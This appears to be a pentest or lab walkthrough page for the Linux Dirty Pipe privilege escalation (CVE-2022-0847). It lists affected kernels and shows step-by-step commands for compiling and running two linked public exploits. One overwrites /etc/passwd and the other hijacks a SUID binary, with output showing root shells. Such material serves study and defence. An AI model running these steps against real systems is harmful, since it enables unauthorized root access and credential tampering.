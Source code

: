 # CVE-2022-0847 - DirtyPipe - Linux - Privilege Escalation

Dirty Pipe (CVE-2022-0847) is a local privilege escalation vulnerability in the Linux kernel that could potentially allow an unprivileged user to do the following:

- Modify/overwrite arbitrary read-only files like /etc/passwd.
- Obtain an elevated shell.

Affected versions:

- kernels from version 5.8 to 5.17

So far the vulnerability has been patched in the following Linux kernel versions:

- 5.16.11
- 5.15.25
- 5.10.102

## Enumeration

```bash
$ uname -r

5.15.0-051500-generic
```

## Exploitation

## Exploit-1

Compile and run [exploit-1.c](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c)

```bash
$ gcc exploit-1.c -o exploit-1

$ ./exploit-1 

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id
uid=0(root) gid=0(root) groups=0(root)

```

## Exploit-2

Compile and run [exploit-2.c](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-2.c)

```bash
$ gcc exploit-2.c -o exploit-2

$ ./exploit-2
Usage: ./exploit-2 SUID

$ find / -perm -4000 2>/dev/null
...
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
...

$ ./exploit-2 /usr/bin/mount

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id
uid=0(root) gid=0(root) groups=0(root),1000(student)
```

## Links

- [Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [GitHub - AlexisAhmed - PoC - CVE-2022-0847-DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
- [Mitre - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
